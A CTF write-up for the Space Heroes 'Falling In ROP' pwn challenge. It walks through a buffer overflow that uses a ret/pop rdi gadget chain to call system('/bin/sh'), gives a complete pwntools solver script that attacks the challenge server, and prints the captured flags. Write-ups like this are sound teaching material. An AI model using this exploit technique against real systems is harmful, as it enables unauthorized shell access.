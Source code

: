 
# Falling In ROP

## Overview

Points: 294

Category: Pwn

## Introduction
The "Falling in ROP" challenge from the Space Heroes CTF called for participants to exploit a binary to spawn a shell, thereby allowing them to capture a flag stored on the
server. The task necessitated the use of a Return-Oriented Programming (ROP) chain to bypass modern security mechanisms.

## Tools and Technologies Used
* pwntools: A Python-based CTF framework for crafting exploits.
* ROPgadget: This tool lets us search binaries for useful ROP gadgets.
* ELF: The binary format analyzed for vulnerabilities and exploitation.

## The Binary and Its Security
The provided binary "falling.bin" was scrutinized with the *checksec* feature of *pwntools*, revealing it was susceptible to a buffer overflow attack—a conclusion drawn from the
requirement to overwrite the return address with a crafted ROP chain.  
**Arch:**     amd64-64-little  
**RELRO:**    Partial RELRO  
**Stack:**    No canary found  
**NX:**       NX enabled  
**PIE:**      No PIE (0x400000)  

### Exploit Development
```.py
chal = context.binary = ELF('/Users/brussel/Downloads/falling.bin', checksec=True)
```
Here, *pwntools* is configured with the target binary, enabling analysis and preparation for the exploit. The *checksec* is invoked to examine the binary's defenses.  

### Establishing a Remote Connection
```.py
fall_rop = remote("spaceheroes-falling-in-rop.chals.io", 443, ssl=True, sni="spaceheroes-falling-in-rop.chals.io")
```
Initiates a secure SSL connection to the remote challenge server, essential for sending our exploit.

### Calculating the Offset
![](Images/fallingImage1.png)
```.py
offset = 88
```
Determines the number of bytes to fill the buffer before the return address on the stack, which is crucial for the overflow attack.  

### Building the ROP Chain
***ROP Gadget***
```
pop rdi
ret
```
![](Images/fallingimage5.png)  
***"/bin/sh" in binary data***  
![](Images/fallingimage3.png)  
```.py
rop = ROP(chal)
pop_rdi = rop.find_gadget(['pop rdi'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = 0x402135
```

1. ROP(chal) initiates the ROP chain builder for the given binary.
2. pop_rdi finds a gadget that will set up the rdi register, which is the first argument for the system call.
3. ret finds a gadget that can be used for stack alignment, ensuring our chain executes smoothly.
4. binsh is the hardcoded address of the string /bin/sh in the binary, which is necessary to spawn a shell.
  
### Receiving the Initial Prompt
![](Images/fallingimage2.png)
```.py
fall_rop.recvuntil('Tell me who you are: ')
```
The script waits for the challenge prompt before sending the exploit payload, ensuring
that the exploit is synchronized with the program's state.  

### Crafting and Sending the Payload  
***System in binary***  
![](Images/fallingimage4.png)  
```.py
payload = flat([b'A' * offset, ret, pop_rdi, binsh, chal.plt['system']])
fall_rop.send(payload)
```

### Constructs the payload using flat to concatenate:
1. A sequence of 'A's to fill the buffer up to the return address.
2. The ret gadget for stack alignment.
3. The pop rdi and binsh to set up our argument for the system call.
4. The address of system from the PLT to execute the call.

### Engaging Interactive Mode
fall_rop.interactive()
After sending the payload, this line provides interactive access to the shell spawned by
the exploit, allowing the participant to manually execute commands on the target
system.  

### Capturing the Flag
By executing the script, the participant successfully overflowed the buffer and executed
the ROP chain, resulting in a shell. Through this shell, the flag was retrieved with the
command cat flag.txt, revealing the contents:  
  
![](Images/fallingimage6.png)  
  
***shctf{ha3_mu$t_n3v3r_w1n_6184}***

## Solver Script  
```.py
from pwn import *
chal = context.binary = ELF('/Users/brussel/Downloads/falling.bin', checksec=True)

fall_rop = remote("spaceheroes-falling-in-rop.chals.io", 443, ssl=True, sni="spaceheroes-falling-in-rop.chals.io")

offset = 88

rop = ROP(chal)
pop_rdi = rop.find_gadget(['pop rdi'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = 0x402135

fall_rop.recvuntil('Tell me who you are: ')
payload = flat([b'A' * offset, ret, pop_rdi, binsh, chal.plt['system']])
fall_rop.send(payload)

fall_rop.interactive()
```
































































![](Images/start.png)


```shctf{t0_pwnf1nity_&_b3y0nd!}```

![](Images/win.png)
